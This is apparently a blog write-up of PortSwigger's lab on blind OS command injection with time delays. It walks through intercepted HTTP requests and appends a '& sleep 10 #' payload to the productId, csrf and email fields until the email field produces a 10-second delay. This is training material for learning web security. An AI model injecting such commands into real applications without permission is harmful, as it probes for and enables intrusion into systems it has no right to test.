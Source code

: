 ```yaml
---
layout: post
title:  "PortSwigger - Command Injection - Lab 2"
date:   2024-07-07 18:20
image:  /images/portswigger/WebSecurityAcademy.png
tags:   [command-injection]
categories: [PortSwigger]
---
```


# Lab 1 - OS Command Injection - Simple Case
>Lab Objective:
This lab contains a blind OS command injection vulnerability in the feedback function.
The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.
To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay.
<br/>
<br/>
<b>Reference:</b>
<br/>
<a href="https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays">Port Swigger - Lab 2</a>
<br/>
<a href="https://academy.ranakhalil.com/courses/1491236/lectures/38308241">Rana Khalil - Lab2</a>
<br/>



### Solution
<hr/>

#### 1. Intercept  all requests and identify requests accepting user inputs:

```
1. GET /product?productId=1

2. POST /feedback/submit
csrf=tNxq00UNidafvF829JS2Jr5QDZyoy0bQ&name=sdfasdf&email=jaco%40infoseq.co&subject=asdasd&message=asdasd
```


#### 2. Test all inputs for command injection vulnerability:
Append `& sleep 10 #`

```
GET /product?productId=1%26+sleep+10+%23
```
Testing csrf parameter by appending our sleep payload:
```
POST /feedback/submit
csrf=tNxq00UNidafvF829JS2Jr5QDZyoy0bQ%26+sleep+10+%23&name=sdfasdf&email=jaco%40infoseq.co&subject=asdasd&message=asdasd
```
Testing email parameter by appending our sleep payload:
```
POST /feedback/submit
csrf=tNxq00UNidafvF829JS2Jr5QDZyoy0bQ&name=test&email=test%40gmail.com%26+sleep+10+%23&subject=test&message=test
```
Notice the response time was 10 seconds:
![Command Injection - Lab 1 - Response](/images/portswigger/CommandInjection/command_injection_lab_2_response.png)

<hr/>
